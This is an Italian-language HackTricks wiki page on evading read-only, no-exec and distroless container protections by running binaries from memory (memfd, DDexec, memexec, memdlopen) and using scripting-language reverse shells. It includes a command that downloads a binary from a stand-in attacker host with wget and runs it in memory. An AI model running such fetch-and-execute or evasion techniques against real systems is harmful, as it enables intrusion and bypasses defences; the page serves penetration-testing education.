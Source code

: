 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository su github.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nell'hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_richiesta di polacco fluente scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video

Nei seguenti video puoi trovare le tecniche menzionate in questa pagina spiegate più in dettaglio:

* [**DEF CON 31 - Esplorare la manipolazione della memoria Linux per stealth e evasione**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusioni stealth con DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## scenario read-only / no-exec

È sempre più comune trovare macchine linux montate con **protezione del file system in sola lettura (ro)**, specialmente nei container. Questo perché eseguire un container con file system ro è facile come impostare **`readOnlyRootFilesystem: true`** nel `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Tuttavia, anche se il file system è montato come ro, **`/dev/shm`** sarà comunque scrivibile, quindi è falso che non possiamo scrivere nulla nel disco. Tuttavia, questa cartella sarà **montata con protezione no-exec**, quindi se scarichi un binario qui **non sarai in grado di eseguirlo**.

{% hint style="warning" %}
Da una prospettiva di red team, questo rende **complicato scaricare ed eseguire** binari che non sono già nel sistema (come backdoor o enumeratori come `kubectl`).
{% endhint %}

## Bypass più semplice: Script

Nota che ho menzionato i binari, puoi **eseguire qualsiasi script** purché l'interprete sia all'interno della macchina, come uno **script shell** se `sh` è presente o uno **script python** se `python` è installato.

Tuttavia, questo non è sufficiente per eseguire la tua backdoor binaria o altri strumenti binari che potresti aver bisogno di eseguire.

## Bypass in memoria

Se vuoi eseguire un binario ma il file system non lo consente, il modo migliore per farlo è **eseguirlo dalla memoria**, poiché le **protezioni non si applicano lì**.

### Bypass syscall FD + exec

Se hai alcuni potenti motori di script all'interno della macchina, come **Python**, **Perl** o **Ruby**, potresti scaricare il binario da eseguire dalla memoria, memorizzarlo in un descrittore di file in memoria (`create_memfd` syscall), che non sarà protetto da quelle protezioni e poi chiamare una **syscall `exec`** indicando il **fd come file da eseguire**.

Per questo puoi facilmente usare il progetto [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Puoi passargli un binario e genererà uno script nel linguaggio indicato con il **binario compresso e codificato in b64** con le istruzioni per **decodificarlo e decomprimerlo** in un **fd** creato chiamando la syscall `create_memfd` e una chiamata alla syscall **exec** per eseguirlo.

{% hint style="warning" %}
Questo non funziona in altri linguaggi di scripting come PHP o Node perché non hanno alcun **modo predefinito per chiamare syscall raw** da uno script, quindi non è possibile chiamare `create_memfd` per creare il **memory fd** per memorizzare il binario.

Inoltre, creare un **fd regolare** con un file in `/dev/shm` non funzionerà, poiché non ti sarà permesso eseguirlo a causa della **protezione no-exec** che si applicherà.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) è una tecnica che ti consente di **modificare la memoria del tuo stesso processo** sovrascrivendo il suo **`/proc/self/mem`**.

Pertanto, **controllando il codice assembly** che viene eseguito dal processo, puoi scrivere un **shellcode** e "mutare" il processo per **eseguire qualsiasi codice arbitrario**.

{% hint style="success" %}
**DDexec / EverythingExec** ti permetterà di caricare ed **eseguire** il tuo **shellcode** o **qualsiasi binario** dalla **memoria**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Per ulteriori informazioni su questa tecnica controlla il Github o:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) è il passo naturale successivo di DDexec. È un **DDexec shellcode demonizzato**, quindi ogni volta che vuoi **eseguire un binario diverso** non è necessario rilanciare DDexec, puoi semplicemente eseguire il shellcode di memexec tramite la tecnica DDexec e poi **comunicare con questo demone per passare nuovi binari da caricare ed eseguire**.

Puoi trovare un esempio su come usare **memexec per eseguire binari da una reverse shell PHP** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Con uno scopo simile a DDexec, la tecnica [**memdlopen**](https://github.com/arget13/memdlopen) consente un **modo più semplice per caricare binari** in memoria per eseguirli successivamente. Potrebbe anche consentire di caricare binari con dipendenze.

## Bypass Distroless

### Cos'è distroless

I container distroless contengono solo i **componenti minimi necessari per eseguire un'applicazione o servizio specifico**, come librerie e dipendenze di runtime, ma escludono componenti più grandi come un gestore di pacchetti, shell o utilità di sistema.

L'obiettivo dei container distroless è **ridurre la superficie di attacco dei container eliminando componenti non necessari** e minimizzando il numero di vulnerabilità che possono essere sfruttate.

### Reverse Shell

In un container distroless potresti **non trovare nemmeno `sh` o `bash`** per ottenere una shell regolare. Non troverai nemmeno binari come `ls`, `whoami`, `id`... tutto ciò che di solito esegui in un sistema.

{% hint style="warning" %}
Pertanto, **non** sarai in grado di ottenere una **reverse shell** o **enumerare** il sistema come fai di solito.
{% endhint %}

Tuttavia, se il container compromesso sta eseguendo ad esempio un'app Flask, allora Python è installato, e quindi puoi ottenere una **reverse shell Python**. Se sta eseguendo Node, puoi ottenere una reverse shell Node, e lo stesso vale per quasi qualsiasi **linguaggio di scripting**.

{% hint style="success" %}
Utilizzando il linguaggio di scripting potresti **enumerare il sistema** utilizzando le capacità del linguaggio.
{% endhint %}

Se non ci sono protezioni **`read-only/no-exec`** potresti abusare della tua reverse shell per **scrivere nel file system i tuoi binari** e **eseguirli**.

{% hint style="success" %}
Tuttavia, in questo tipo di container queste protezioni di solito esistono, ma potresti utilizzare le **tecniche di esecuzione in memoria precedenti per bypassarle**.
{% endhint %}

Puoi trovare **esempi** su come **sfruttare alcune vulnerabilità RCE** per ottenere reverse shell di linguaggi di scripting ed eseguire binari dalla memoria in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nel hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_richiesta di polacco fluente scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
